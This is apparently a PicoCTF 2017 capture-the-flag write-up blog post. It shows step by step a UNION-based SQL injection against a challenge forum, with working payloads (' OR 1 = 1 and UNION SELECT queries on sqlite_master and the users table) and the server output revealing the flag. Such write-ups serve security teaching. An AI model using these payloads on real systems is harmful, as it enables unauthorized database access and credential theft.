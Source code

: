 ```yaml
---
layout:     post
title:      "PicoCTF - A Happy Union"
subtitle:   "Write-Ups"
date:       2017-04-16 0:00:00
author:     "W3ndige"
header-img: "img/picoctf-header.jpg"
permalink: /:title/
category: PicoCTF 2017
---
```

<h1>A Happy Union - 110 PTS</h1>

<p>I really need access to website, but I forgot my password and there is no reset. Can you help? I like lite sql :)</p>

{% highlight html %}
w3ndige@W3ndige ~> curl http://shell2017.picoctf.com:41558/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Top Notch Forum</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <link href="/static/css/style.css" rel="stylesheet">  
  </head>
    <body>
        <div class="container">
          <div class="row">
            <div class="text-center">
                <h1> Welcome to the Super Poster Forum! </h1>
            </div>
        </div>
        <div class="row">
            <br />
            <br />
            <br />
            <br />
        </div>
        <div class="row">
            <div class="col-md-12 text-center">
                <a href="/login" class="btn btn-primary btn-md" role="button">Login</a>
                <a href="/register" class="btn btn-primary btn-md" role="button">Register</a>
            </div>
        </div>
      </div>
        <script src="/static/js/bootstrap.min.js"></script>
        <script src="/static/js/jquery.min.js"></script>
        <script type="text/javascript" src="/static/js/client.js"></script>

    </body>
</html>⏎         
{% endhighlight %}

<p>A happy union? It has to do something with <b>union sql injection</b>. Let's firstly check, how bad can we go when registering a new user. </p>

{% highlight html %}
username: ' OR 1 = 1
password: asd
{% endhighlight %}

<p>Now, after logging in, we can clearly see the SQL query which is used to take out the data from the database. And yeah, our input isn't sanitized at all, so we're clear to create <b>UNION</b> injection. </p>

{% highlight sql %}
select id, user, post from posts where user = '' OR 1 = 1';
{% endhighlight %}

<p>Our first step would be creating a query that will tell us names of the tables in the database. Since we know it's <b>sqlite</b> it won't be that hard. </p>

{% highlight sql %}
' union SELECT null, null, name FROM sqlite_master;--
{% endhighlight %}

<p>We have to use 2 <b>null</b> columns, since the base query is taking out content of 3 columns, and so we have to in the union query. Dashes in the end will comment out everything afer them, just in case. </p>

{% highlight html %}
<div class="row">
     <div class="text-center">
         <h1> Welcome &#39; union SELECT null, null, name FROM sqlite_master;-- to the Super Poster Forum! </h1>
     </div>
 </div>

 <div class="row">
     <div class="text-center">
         <h3> The current posts are:</h3>
     </div>
 </div>
 <div class="row">
     <table class="table">
         <thead>
         <tr>
             <th>Post ID</th>
             <th>User</th>
             <th>Value</th>
         </tr>
         </thead>
         </tbody>
                 <tr><td>None </td><td> None</td> <td> posts</td></tr>

                 <tr><td>None </td><td> None</td> <td> sqlite_sequence</td></tr>

                 <tr><td>None </td><td> None</td> <td> users</td></tr>
         </tbody>
     </table>
 </div>
{% endhighlight %}

<p>Great, we have <b>users</b> table, from which we can now try to get the flag. Here we go with the last query. </p>

{% highlight sql %}
' union SELECT user, pass, null FROM users;--
{% endhighlight %}

<p>User, pass column names? Let's check that out. </p>

{% highlight html %}
<div class="row">
    <div class="text-center">
        <h1> Welcome &#39; union SELECT user, pass, null FROM users;-- to the Super Poster Forum! </h1>
    </div>
</div>
<div class="row">
    <div class="text-center">
        <h3> The current posts are:</h3>
    </div>
</div>
<div class="row">
    <table class="table">
        <thead>
        <tr>
            <th>Post ID</th>
            <th>User</th>
            <th>Value</th>
        </tr>
        </thead>
        </tbody>
                <tr><td>&#39; union SELECT user, pass, null FROM users;-- </td><td> asd</td> <td> None</td></tr>

                <tr><td>admin </td><td> flag{union?_why_not_onion_b6e6a3cd8e3f1fe5f6109d1618bddbd1}</td> <td> None</td></tr>
        </tbody>
    </table>
</div>
{% endhighlight %}

<p>Great SQL Injection challenge! </p>

<p>~ Stay safe!</p>
